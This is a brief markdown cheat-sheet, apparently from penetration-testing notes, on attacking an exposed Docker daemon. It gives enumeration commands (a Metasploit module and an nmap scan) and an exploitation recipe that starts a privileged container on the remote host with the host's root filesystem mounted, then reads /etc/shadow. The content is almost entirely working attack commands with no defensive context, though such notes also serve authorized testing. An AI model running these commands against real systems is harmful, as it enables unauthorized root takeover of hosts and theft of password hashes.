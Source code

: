 ## Enumeration
'''
    msf> use exploit/linux/http/docker_daemon_tcp
    nmap -sV --script "docker-*" -p <PORT> <IP>
'''
## Vuln to exploit

'''
    docker -H <host>:2375 run --rm -it --privileged --net=host -v /:/mnt alpine
    cat /mnt/etc/shadow
'''